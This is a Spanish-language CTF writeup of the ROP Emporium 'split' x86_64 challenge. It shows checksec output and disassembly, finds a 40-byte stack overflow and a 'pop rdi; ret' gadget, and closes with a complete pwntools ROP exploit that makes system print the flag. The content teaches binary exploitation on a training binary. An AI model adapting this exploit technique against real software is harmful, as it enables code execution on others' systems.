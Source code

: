 ```yaml
---
layout: post
title: Split ROPEmporium (x86_64)
comments: true
categories: [ROPEmporium, Writeups]
---
```


Este será el primer post de los writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html), obviaremos el reto *ret2win*, ya que es
excesivamente simple. Con esta serie de posts aprenderemos sobre una de las técnicas más utilizadas en la explotación de binarios, la 
[***ROP***]({% post_url /teoria/2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

## Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Vemos que tan solo tiene el [[NX bit]], por lo que el ataque será probablemente mediante [[Return Oriented Programming|ROP]].

Analizando con [[gdb]]-[[pwndbg]]:

> **Funciones**
```gdb
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
```

> **Main**
```gdb
0x0000000000400697 <+0>:	push   rbp
0x0000000000400698 <+1>:	mov    rbp,rsp
0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009d6]        # 0x601078 <stdout@@GLIBC_2.2.5>
0x00000000004006a2 <+11>:	mov    ecx,0x0
0x00000000004006a7 <+16>:	mov    edx,0x2
0x00000000004006ac <+21>:	mov    esi,0x0
0x00000000004006b1 <+26>:	mov    rdi,rax
0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
0x00000000004006b9 <+34>:	mov    edi,0x4007e8
0x00000000004006be <+39>:	call   0x400550 <puts@plt>
0x00000000004006c3 <+44>:	mov    edi,0x4007fe
0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
0x00000000004006cd <+54>:	mov    eax,0x0
0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
0x00000000004006d7 <+64>:	mov    edi,0x400806
0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
0x00000000004006e1 <+74>:	mov    eax,0x0
0x00000000004006e6 <+79>:	pop    rbp
0x00000000004006e7 <+80>:	ret
```

> **Pwnme**
```gdb
0x00000000004006e8 <+0>:	push   rbp
0x00000000004006e9 <+1>:	mov    rbp,rsp
0x00000000004006ec <+4>:	sub    rsp,0x20
0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
0x00000000004006f4 <+12>:	mov    edx,0x20
0x00000000004006f9 <+17>:	mov    esi,0x0
0x00000000004006fe <+22>:	mov    rdi,rax
0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
0x0000000000400706 <+30>:	mov    edi,0x400810
0x000000000040070b <+35>:	call   0x400550 <puts@plt>
0x0000000000400710 <+40>:	mov    edi,0x40083c
0x0000000000400715 <+45>:	mov    eax,0x0
0x000000000040071a <+50>:	call   0x400570 <printf@plt>
0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
0x0000000000400723 <+59>:	mov    edx,0x60
0x0000000000400728 <+64>:	mov    rsi,rax
0x000000000040072b <+67>:	mov    edi,0x0
0x0000000000400730 <+72>:	call   0x400590 <read@plt>
0x0000000000400735 <+77>:	mov    edi,0x40083f
0x000000000040073a <+82>:	call   0x400550 <puts@plt>
0x000000000040073f <+87>:	nop
0x0000000000400740 <+88>:	leave
0x0000000000400741 <+89>:	ret
```

> **UsefulFunction**
```gdb
0x0000000000400742 <+0>:	push   rbp
0x0000000000400743 <+1>:	mov    rbp,rsp
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>
0x0000000000400750 <+14>:	nop
0x0000000000400751 <+15>:	pop    rbp
0x0000000000400752 <+16>:	ret
```

Vemos que tenemos una vulnerabilidad de tipo [[Buffer overflow]], con [[pwntools|cyclic]] podemos calcular el offset, que en este caso es **40**.

Vemos también que tenemos una función *usefulFunction*, que nos da una llamada a *system*. Sin embargo, en este caso, se llama a `"/bin/ls"`:

```gdb
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>

[...]

pwndbg> x/s 0x40084a
0x40084a:	"/bin/ls"
```

Por lo que si conseguimos meter en *rdi* la cadena `"/bin/cat flag"`, nos imprimirá la flag. Por suerte dicha cadena existe en el binario:

```gdb
pwndbg> search "/bin/cat"
Searching for value: '/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

Solo nos queda buscar un gadget con [[ROPGadget]] (con [[ropper]] no aparecía):

```bash
ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```

## Explotación

El script quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './split'

ip=""
port=30303

def start():
    if args.REMOTE:
        return remote(ip, port)
    else:
        return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 40*b'A'

syscall = 0x000000000040074b
pop_rdi = 0x00000000004007c3
bin_cat = 0x601060

payload = padding + p64(pop_rdi) + p64(bin_cat) + p64(syscall)

io.send(payload)
io.interactive()
```
